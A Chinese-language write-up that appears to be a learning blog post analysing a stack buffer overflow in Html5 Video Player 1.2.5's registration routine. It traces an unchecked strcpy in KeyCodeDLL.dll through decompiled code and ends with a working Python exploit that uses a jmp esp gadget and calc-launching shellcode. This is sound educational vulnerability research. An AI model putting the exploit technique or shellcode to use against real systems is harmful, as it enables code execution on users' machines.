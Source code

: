 # Html Video Player 1.2.5 Stack Overflow 漏洞分析

> 第一次进行实际漏洞的分析，先从一个比较简单的栈溢出漏洞上手，顺便认识一下windows Pwn
>
> 跟着[M4x的教程](http://m4x.fun/post/html5-video-player-1.2.5-local-buffer-overflow-analysis/)走一发

## Step 1. 寻找溢出函数

经过对程序的检查，程序使用.net架构，可以用dnspy进行反编译分析，能够清晰的看到内部程序逻辑。

已经判断出来，溢出发生在进行注册时的账号和密码，可以通过keyword搜索定位到程序的对应位置，对溢出情况进行分析。

![](http://ww1.sinaimg.cn/large/006z37hrly1fzy7p3fxelj30gb09j3yq.jpg)

在dnspy中通过关键字*keycode*和*username*进行查找，可以定位到关键函数位置

![](http://ww1.sinaimg.cn/large/006z37hrly1fzwu1erw9pj30oq04ewel.jpg)

根据其中的函数名称，可以基本确定，第一个调用的makeSureEngineInit()是一个初始化函数，保证后续操作正常进行，与我们的输入无关。funcDLLVerifyKeyCode函数传递了username和keycode，溢出应该发生在此处。

```c#
// Token: 0x06000244 RID: 580
[DllImport("KeyCodeDLL.dll", CallingConvention = CallingConvention.Cdecl, CharSet = CharSet.Ansi, EntryPoint = "#1")]
private static extern int funcDLLVerifyKeyCode(string strUserName, string strKeyCode);
```

点击定位可以发现，这个函数是dll文件中的导出函数，在dnspy中无法进行分析，可以使用ida打开KeyCodeDLL.dll，dll文件去掉了符号表，无法直接找到对应的函数，但是通过查看Export导出表，可以查看此dll文件中到处函数名与对应的地址。

![](http://ww1.sinaimg.cn/large/006z37hrly1fzx3ln2lrhj30ig04zq2w.jpg)

虽然前两个的名字无法确定，但是可以基本确定，我们的目标函数就在其中，点击反编译得到伪代码，通过分析两个函数结构和参数，很容易能够分辨出KeyCodeDLL_1函数即为溢出发生函数*funcDLLVerifyKeyCode*。接下来就是要在这个函数内对栈溢出进行分析了，相对就非常简单了。

## Step 2. 溢出分析

通过之前的分析可以确定溢出发生在这个函数中，即上图中偏移地址为0x100010D0的函数

```c
int __cdecl funcDLLVerifyKeyCode(int a1, int a2)
{
  int result; // eax

  if ( dword_10004010 )
    result = sub_10001850(a1, a2, 1);        //vul
  else
    result = 0;
  return result;
}
```

其中调用了**sub_10001850(username, password, 1)**函数，并且将用户名和密码传递进此函数，说明溢出发生在这个子函数内。

```c
int __thiscall sub_10001850(_DWORD *this, const char *username, const char *keycode, int a4)
{
  _DWORD *v4; // ebp
  int v5; // eax
  char *v7; // [esp+10h] [ebp-4F4h]
  char *v8; // [esp+14h] [ebp-4F0h]
  char *v9; // [esp+18h] [ebp-4ECh]
  int v10; // [esp+1Ch] [ebp-4E8h]
  char v11_uname; // [esp+20h] [ebp-4E4h]
  char v12_keycode; // [esp+120h] [ebp-3E4h]  // in stack
  __int16 v13; // [esp+220h] [ebp-2E4h]
  char v14; // [esp+224h] [ebp-2E0h]
  int v15; // [esp+2CCh] [ebp-238h]
  char v16[4]; // [esp+2D4h] [ebp-230h]
  char v17[4]; // [esp+2D8h] [ebp-22Ch]
  char v18; // [esp+2DCh] [ebp-228h]
  int v19; // [esp+384h] [ebp-180h]
  char v20; // [esp+390h] [ebp-174h]
  char v21; // [esp+394h] [ebp-170h]
  int v22; // [esp+43Ch] [ebp-C8h]
  char v23; // [esp+448h] [ebp-BCh]
  char v24; // [esp+44Ch] [ebp-B8h]
  int v25; // [esp+4F4h] [ebp-10h]
  char v26; // [esp+500h] [ebp-4h]

  v4 = this;
  this[68] = 0;
  strcpy(&v11_uname, username);    // stack overflow
  strcpy(&v12_keycode, keycode);
  v7 = &v11_uname;
  v17[0] = 0;
  v13 = -(a4 != 0);
    ...
```

很容易可以发现，在将username和keycode使用**strcpy**函数复制到本函数的局部变量的时候，没有进行长度检查和限制，导致可以使用超长的字符串覆盖返回地址，造成栈溢出。而且在xp系统中，没有开启ASLR(PIE) 和 DEP(NX)保护，导致漏洞非常容易利用，并且username和keycode都可以造成溢出，但是keycode在后面的函数过程中没有使用，利用更加容易。

*差点没有注意到的一点是，这个程序中使用esp进行定位，需要进行覆盖的栈结构需要进行调试才能确定*

而且最后的返回语句是**retn    0Ch**

```assembly
.text:100019FA ; 58:   return v4[68];
.text:100019FA
.text:100019FA loc_100019FA:                           ; CODE XREF: sub_10001850+13B↑j
.text:100019FA                                         ; sub_10001850+14F↑j ...
.text:100019FA                 mov     eax, [ebp+110h]
.text:10001A00                 pop     edi
.text:10001A01                 pop     esi
.text:10001A02                 pop     ebp
.text:10001A03                 pop     ebx
.text:10001A04                 add     esp, 4F4h
.text:10001A0A                 retn    0Ch
```

>RETN/RETF在反汇编代码中呈现的形式如下：
>
>RETN
>
>RETN   操作数1
>
>RETF
>
>RETF   操作数1
>
>
>
>RETN等价于一条指令：
>
>​	POP   eip
>
>RETF等价于两条指令：
>　　POP   eip
>　　POP   CS
>
>而带有操作数的RETN/RETF指令则是在POP之后，执行ESP=ESP+操作数1。

可知在执行 retn 0Ch 后，esp = esp + 0xc

又：

> windows 中经常使用 `jmp esp + shellcode` 的方法，第一次是在 `Jarvis OJ` 的 [BackDoor](http://m4x.fun/post/jarvisoj-pwn-writeup/#backdoor-200) 这道题目中见到了这种技巧。
>
> 写了一段弹计算器的 shellcode，需要注意不能出现截断 `strcpy()` 的字符
>
> ```python
> shellcode =  "\x31\xC9"				# xor ecx, ecx         
> shellcode += "\x51"                 # push ecx  
> shellcode += "\x68\x63\x61\x6C\x63" # push 0x63616c63 (push calc)  
> shellcode += "\x54"                 # push dword ptr esp  
> shellcode += "\xBA\xC7\x93\xbf\x77" # mov edx, 0x77bf93c7 (mov edx, system)
> shellcode += "\xFF\xD2"             # call edx  
> shellcode += "\x90" * 2				# suffix
> ```

可知在执行 jmp esp之时，栈顶已经下移12字节，所以在返回地址和shellcode之间应该填入12个字符。

至此，这个漏洞就算搞清楚来龙去脉，exploit也比较简单，调试出运行时的栈空间长度，加上gadgets，padding和shellcode即可，将payload打印到文件中，从文件中复制到软件的注册页面

```python
import struct

p32 = lambda x: struct.pack('<I', x)

jesp = 0x7d711020					# shell32.dll

shellcode =  "\x31\xC9"      		# xor ecx, ecx         
shellcode += "\x51"                 # push ecx  
shellcode += "\x68\x63\x61\x6C\x63" # push 0x63616c63 (push calc)  
shellcode += "\x54"                 # push dword ptr esp  
shellcode += "\xBA\xC7\x93\xbf\x77" # mov edx, 0x77bf93c7 (mov edx, system)
shellcode += "\xFF\xD2";            # call edx  
shellcode += "\x90" * 2 			# suffix
    
payload = 'A' * 996 + p32(jesp) + "aaaabbbbcccc" + shellcode

# print(payload)
with open("exploit.txt", "wb") as f:
    f.write(payload)
    
# Author : M4x
```

效果喜人

![](http://ww1.sinaimg.cn/large/006z37hrly1fzy9mlftlbj30vu0jvt97.jpg)